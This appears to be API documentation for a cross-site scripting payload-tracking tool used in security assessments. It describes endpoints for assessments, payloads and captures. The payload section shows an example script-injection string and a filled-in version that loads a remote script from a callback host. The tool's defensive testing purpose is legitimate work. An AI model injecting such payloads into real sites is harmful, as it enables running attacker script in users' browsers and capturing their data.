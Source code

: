 ##API##
The API can be used for tool development and automation.  

##API Authentication##
After creating an admin account, navigate to the Admin model and copy the token.  You will need the token to perform any API requests.

![Token](http://i.snag.gy/bc8vP.jpg "Token")

You *MUST* send the token as a header in each request.  Here is an example for creating a new Assessment:

    POST /api/assessments HTTP/1.1
    Token: 7bf26bd2a9782a3a3422b6abb5c2d0ebe58999a984bf0bcf8197f56f84f0c878cfd37c76c0339b12
    Content-Type: application/json
    Content-Length: 29
    

    {"name": "stuff.netflix.com"}
    
###Assessment API###

**API Calls**

| HTTP Method | URI | ACTION | 
| ----------- | --- | ------ |
| GET | http://[hostname]/api/assessments | Retrieve a list of assessments |
| GET | http://[hostname]/api/assessments/[id] | Retrieve a specific assessment | 
| POST | http://[hostname]/api/assessments | Create a new assessment |
| PUT | http://[hostname]/api/assessments/[id] | Update a specific assessment |
| DELETE | http://[hostname]/api/assessments/[id]  | Delete an assessment|

**JSON parameters**

| Parameter | Type | Required | Description | 
| --------- | ---- | -------- | ----------- |
| id | integer | True (For PUT/GET/DELETE| id field for PUT/GET/DELETE requests|
| name | string | True | The application or assessment identifier | 

###Payload API###

**API Calls**

| HTTP Method | URI | ACTION | 
| ----------- | --- | ------ |
| GET | http://[hostname]/api/payloads | Retrieve a list of payloads |
| GET | http://[hostname]/api/payloads/[id] | Retrieve a specific payload | 
| POST | http://[hostname]/api/payloads | Create a new payload |
| PUT | http://[hostname]/api/payloads/[id] | Update a specific payload |
| DELETE | http://[hostname]/api/payloads/[id]  | Delete a payload|

**JSON parameters**

| Parameter | Type | Required | Description | 
| --------- | ---- | -------- | ----------- |
| id | integer | True (For PUT/GET/DELETE| id field for PUT/GET/DELETE requests|
| assessment | string | True | The application or assessment identifier | 
| payload | string | True | The injection string.  Can also use $1 as plaeholder for payload | 
| method | string | False | The request method (GET/POST/PUT/DELETE) | 
| url | string | False | The URL you are testing | 
| parameter | string | False | The parameter you are testing |
| notes | string | False | Notes on the payload | 


**POST Request**

    {
        "assessment": "Example",
        "payload": "<script src=$1></script>",
        "method": "GET",
        "parameter": "UID",
        "notes": "",
        "url": "http://www.foo.com/what.php?UID=2343"
    }
    
**POST Response**

    HTTP/1.0 201 CREATED
    Content-Type: application/json
    Content-Length: 200
    Date: Tue, 04 Feb 2014 00:30:14 GMT
    
    {
        "assessment": "Example", 
        "id": 2, 
        "method": "GET", 
        "notes": "", 
        "parameter": "UID", 
        "payload": "<script src=\"//127.0.0.1:8081/c.js?u=None\"></script>", 
        "url": "http://www.foo.com/what.php?UID=2343"
    }


       
###Capture API###
| HTTP Method | URI | ACTION | 
| ----------- | --- | ------ |
| GET | http://[hostname]/api/captures | Retrieve a list of captures |
| GET | http://[hostname]/api/captures/[id] | Retrieve a specific capture | 
| DELETE | http://[hostname]/api/captures/[id]  | Delete a capture|

